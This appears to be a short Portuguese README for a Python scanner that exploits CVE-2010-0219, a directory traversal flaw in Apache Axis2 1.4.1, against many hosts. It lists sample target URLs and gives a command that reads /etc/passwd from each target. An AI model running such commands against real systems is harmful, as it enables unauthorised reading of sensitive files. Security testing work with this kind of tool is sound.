 # axis2_multi_xsd_scanner CVE-2010-0219
versão avançada do exploit para a vulnerabilidade de Directory Traversal em Apache Axis2 1.4.1 (xsd) convertida em um scanner multi-host


# Uso
*python3 axis2_multi_xsd_scanner.py --help*

# Criar arquivo com alvos: 
*http://192.168.1.10:8080/axis2/services/Version*

*http://192.168.1.15:8080/axis2/services/Version*

*http://example.com/axis2/services/Version*

# Exemplo de Scaner:
*python3 axis2_multi_xsd_scanner.py -l targets.txt -f /etc/passwd -o output*
